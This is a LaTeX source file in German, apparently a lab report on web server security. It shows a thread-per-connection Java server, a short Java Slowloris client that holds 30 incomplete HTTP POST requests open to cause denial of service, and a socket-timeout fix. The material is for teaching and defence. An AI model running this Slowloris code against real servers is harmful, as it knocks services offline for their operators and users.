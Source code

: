 \documentclass[a4paper,12pt,
headsepline,           %
twoside,               %
pointlessnumbers,      %
bibtotoc,              %
BCOR15mm               %
]{scrbook}
\begin{document}
\section*{Webserver}
Der Server wurde wie folgt angepasst
\begin{lstlisting}
    public static void main(String[] args) throws IOException {

        ExecutorService executorService = Executors.newFixedThreadPool(threadPoolSize);
        ServerSocket serverSocket = new ServerSocket(port);

        while(true) {

            Socket clientSocket = serverSocket.accept();
            new ConnectionThread(clientSocket).start();


            System.out.println("Connection from " + clientSocket.getRemoteSocketAddress()
                    + "; Active Connections: " + ConnectionThread.activeConnections.get());
        }
    }
\end{lstlisting}

\section*{Slowloris - Unvollständige Anfrage}
Es werden mehrere Unvollständige Verbindungen zu dem Server aufgebaut, welche dazu führen, dass der Server irgendwann keine weiteren Verbindungen mehr bearbeiten kann und somit kommt es zu einem Denial of Service.
\begin{lstlisting}
    public static void main(String[] args) throws InterruptedException, IOException {

        for (int i=0; i<30; i++) {
            openSocket();
        }
        while (true);
    }
        

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);
        var outputStream = socket.getOutputStream();

        String header = "POST / HTTP/1.1\r\n" + "Host: " + host + "\n";

        outputStream.write(header.getBytes());
    }
\end{lstlisting}

\section*{Webserver - Timeouts}
Durch das einfügen eines Timeouts werden verbindungen abgebrochen, die nicht mehr reagieren, womit es nicht mehr zu einem Denial of Service kommt.
Das Timeout kann durch folgende Funktion eingestellt werden: \texttt{clientSocket.setSoTimeout(1000)}
\end{document}
